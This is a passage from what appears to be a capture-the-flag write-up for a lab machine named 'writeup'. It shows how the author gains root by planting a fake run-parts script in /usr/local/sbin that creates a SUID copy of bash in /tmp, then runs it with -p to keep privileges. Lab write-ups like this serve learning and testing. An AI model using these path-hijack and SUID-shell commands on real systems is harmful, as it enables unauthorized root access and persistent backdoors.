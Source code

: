 I remade the payload, adding executable permissions:

```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cp /bin/bash /tmp/twig && chmod u+s /tmp/twig && chmod +x /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

I then ran it - I just had to tell bash not to drop privileges with the `-p` flag!

![[Pasted image 20210715223211.png]]

We can also confirm there's no ssh key while we're here:

```bash
twig-4.4# ls -la /root/.ssh
ls: cannot access '/root/.ssh': No such file or directory
```